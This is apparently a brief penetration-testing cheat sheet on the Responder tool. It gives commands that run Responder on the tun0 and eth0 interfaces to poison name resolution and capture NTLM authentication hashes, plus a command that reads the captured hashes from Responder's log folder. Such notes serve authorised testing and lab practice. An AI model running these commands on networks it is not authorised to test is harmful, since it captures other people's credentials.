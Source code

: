 Responder

~~~
sudo responder -I tun0
sudo responder -I eth0 -dwF
~~~

Location of Responder Logs for finding Hashes

/usr/share/responder/logs/

~~~
cat /usr/share/responder/logs/*.txt | sort -u -t: -k1,2
~~~